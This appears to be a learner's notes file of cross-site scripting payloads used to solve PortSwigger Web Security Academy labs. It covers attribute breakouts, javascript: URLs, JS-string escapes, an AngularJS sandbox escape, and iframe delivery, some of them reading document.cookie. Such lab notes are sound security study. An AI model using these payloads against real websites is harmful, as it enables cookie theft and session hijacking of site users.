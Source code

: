 # xss

==========================================
http://example.com/swagerUI/      SERARCH for swagerui xss payload

==========================================


------------------------------- portswigger laps ----------------------------------

# (1)         

```html
 <h1> 'test' </h1>
       test' </h1>   <script> alert() </script>  <!--
```

-----------------------------------------------------------------------------------
             
# (2)          

### in comments 

```html
<img onload=alert()>
```
-----------------------------------------------------------------------------------

# (3)       

 > ### the 'test >' found it but encoded in html so what is the solution:
   * > i found js code that take query form search and put it in src of img so

     > i put payload in this image


```html
 <img src="query">
             <img src="query" onload=alert()>

             <img src="/resources/images/tracker.gif?searchTerms='+query+'">
                                                                    hello'" onload='alert()'> 
```
            
------------------------------------------------------------------------------------

# (4)         
### the test not in sourse code but there is JS dom code make query in url   

```url
/?search=test
/?search=javascript:confirm()      not work 
/?search=<svg onload=alert()>
```
             
------------------------------------------------------------------------------------

# (5)         
### if i try to submit feedback i notice that in URL 

```url
/feedback?returnPath=/
/feedback?returnPath=javascript:alert(document.cookie)
```
     
------------------------------------------------------------------------------------

# (6) 

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```
------------------------------------------------------------------------------------
 
# (7)        
### when write test i found it appear in sourse code in two places 

```html
<h1>0 search results for 'test'</h1>
<input type=text placeholder='Search the blog...' name=search value="test">
```
###  i try

```html
test' <img src=x onerror=alert()>        <!-- not work -->
test' <img src=x onclick=alert()>        <!-- not work -->
```
### i notice that the <> are encoded in source code so i can't use them in ``<input>`` so i try:

```html
test"onmouseover="alert(1)"
```
              
------------------------------------------------------------------------------------

# (8)          
### in website input field 

```html
javascript:alert()
```
             
------------------------------------------------------------------------------------

# (9)         
### in soruse code i found 

```html
<script>
     var searchTerms = 'test';
```

```html
                       'test' alert();     -- not work --
                       'test'; alert();//';  -- solved --
```
             
                                          
------------------------------------------------------------------------------------

# (10)         

```url
product?productId=1&storeId="></select><img src=1 onerror=alert(1)>
```

------------------------------------------------------------------------------------

(11)  DOM XSS in AngularJS expression
 
form portswigger sheet cheat i found

         {{constructor.constructor('alert(1)')()}} 


-------------------------------------------------------------------------------------

# (12)  

```js
\"-alert()}//
```

> ``\``   ==> to close Get / in request

> ``"``   ==> to close the value of json
 
> ``}//`` ==> close json 

------------------------------------------------------------------------------------

# (13)   

```html
<> <img src=x onerror=alert()>
```

-----------------------------------------------------------------------------------

# (14)  

```html
<iframe src="https://0aaf0027041a761d816bed2a006f0054.web-security-academy.net
/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

-----------------------------------------------------------------------------------

# (15) 

```
 <script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```



------------------------------------------------------------------------------------

# (16)

 <svg><animatetransform onbegin=alert(1) attributeName=transform>


-------------------------------------------------------------------------------------

